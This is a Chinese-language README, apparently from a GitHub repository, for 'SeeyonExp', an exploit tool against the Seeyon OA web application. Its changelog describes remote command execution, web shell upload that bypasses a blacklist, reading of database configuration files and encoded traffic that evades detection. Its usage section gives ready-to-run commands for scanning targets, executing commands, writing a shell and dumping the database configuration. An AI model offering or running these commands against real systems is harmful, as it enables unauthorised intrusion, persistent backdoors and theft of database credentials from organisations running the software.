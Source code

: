 # SeeyonExp

### 0x00 开发日志

2021-1-10 V0.7 增加识别版本后无损检测漏洞功能，有那么点漏扫的意思

2020-11-11 V0.6 增加数据库配置文件读取功能

2020-11-10 V0.5 增加回显流量加密功能，Base64与ascii结合，Base65

2020-11-2 V0.4 解决命令执行for循环无法执行for之后Java代码的bug，分号的神奇作用

2020-10-30 V0.3 增加文件上传功能，Base64不编码写入不了，黑名单校验

2020-10-22 V0.2 命令可以在windows与Linux下执行，并支持https

2020-10-20 V0.1 根据POC写出初步利用，可以执行命令，但是仅在windows与http下

### 0x01 使用方法

无损检验是否存在漏洞：java -jar seeyon.jar scan http/https://xxxx.com:port/seeyon 

执行命令：java -jar seeyon.jar http/https://xxxx.com:port/seeyon cmd 

写入shell：java -jar seeyon.jar http/https://xxxx.com:port/seeyon shell srcFile desFile 

读取数据库配置文件：java -jar seeyon.jar http/https://xxxx.com:port/seeyon dataConf 

流量解码：java -jar seeyon.jar decode ciphertext 

流量编码：java -jar seeyon.jar encode Plaintext
